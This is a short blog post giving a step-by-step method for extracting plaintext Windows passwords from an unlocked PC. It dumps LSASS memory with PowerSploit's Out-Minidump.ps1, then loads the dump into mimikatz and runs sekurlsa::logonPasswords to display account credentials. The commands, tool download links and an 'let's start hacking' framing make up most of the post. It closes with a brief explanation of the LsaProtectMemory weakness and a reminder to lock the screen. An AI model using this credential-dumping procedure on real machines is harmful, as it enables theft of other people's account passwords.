 ```yaml
---
layout: post
title: Getting plaintext Windows passwords on unlocked PC
description: A simple how-to article demonstrating existing vulnerability that makes your Windows passwords are hackable.
tags: [Windows, Password, Vulnerability]
comments: true
---
```


I found [this article](http://www.fixedbyvonnie.com/2015/02/hack-passwords-of-windows-in-5-minutes) mentioning the existing vulnerability in Windows PC where you can the plaintext view of your passwords on unlocked computer. So, I tried it on my Windows 10 PC and found that the vulnerability is still there. The method used here is not new at all, and anyone can perform this hacking on any unlocked Windows PC.

<hr class="break">

### Tools you need

- [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest) - just get the binary package, e.g. `mimikatz_trunk.zip`
- [Out-Minidump.ps1](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1) - PowerShell script

Download all those tools and let's start hacking!

<hr class="break">

### 1. Perform memory dump using the PowerShell script

To perform the [LSASS](https://technet.microsoft.com/en-us/library/cc961760.aspx) dump, we will use the PowerShell script - `Out-Minidump.ps1`. The flow of cmdlet will look like this:

{% include figure.html src="http://i.imgur.com/1lQnyhZ.png" caption="PowerShell cmdlet" %}

```powershell
. 'G:\USERFILES\Desktop\PowerShell Playground\Out-Minidump.ps1'
# "dot sourcing" method to import function from the script

Get-Process lsass | Out-Minidump
# To perform the LSASS dump

Copy-Item .\lsass_868.dmp 'G:\USERFILES\Desktop\PowerShell Playground'
# Copy the dump file to desired location
```

### 2. View the passwords using the mimikatz terminal program

As you can see, `lsass_868.dmp` is the example of LSASS dump file captured using the PowerShell script. Now, it's time we use the mimikatz terminal to load in the dump file as follows:

```
sekurlsa::minidump "G:\USERFILES\Desktop\PowerShell Playground\lsass_868.dmp"
```

{% include figure.html src="http://i.imgur.com/OPA0g0w.png" caption="mimikatz MINIDUMP" %}

Switching to MINIDUMP file, so now we can view the passwords. Now, run this command to display all the accounts and passwords available:

```
sekurlsa::logonPasswords full
```

Voila! Now, you can see your actual Microsoft Account username and password in _a plaintext view_.

{% include figure.html src="http://i.imgur.com/nWPZUIR.jpg" caption="mimikatz logonPasswords" %}

<hr class="break">

### The vulnerability explanation

The fact is that the password is encrypted but it's useless as the implementation depends on two basic Win32 functions; [LsaProtectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714509%28v=vs.85%29.aspx) (the encryption function) and [LsaUnprotectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714510(v=vs.85).aspx) (the decryption function). And Windows stores encrypted user passwords in memory without using one-way hash which is decryptable using **LsaUnprotectMemory** function to a plain text.

<hr class="break">

Do not forget to lock your Windows when you leave your desk!